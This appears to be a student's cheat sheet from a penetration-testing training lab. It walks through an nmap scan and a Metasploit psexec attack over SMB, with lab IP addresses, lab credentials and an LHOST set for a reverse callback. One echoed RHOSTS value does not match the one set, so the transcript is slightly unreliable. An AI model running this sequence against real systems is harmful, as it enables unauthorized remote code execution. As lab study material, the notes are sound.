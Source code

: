 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Automating Payloads & Delivery with Metasploit

Starting MSF

```
sudo msfconsole 
```

NMAP Scan

```
nmap -sC -sV -Pn 10.129.164.25
```

Searching Within Metasploit

```
msf6 > search smb
```

Option Selection

```
msf6 > use 56
```

Examining an Exploit's Options

```
msf6 exploit(windows/smb/psexec) > options
```

Setting Options

```
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.142.172
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```

Exploits Away

```
msf6 exploit(windows/smb/psexec) > exploit
```

{% embed url="https://www.getastra.com/blog/security-audit/meterpreter-commands-post-exploitation/" %}
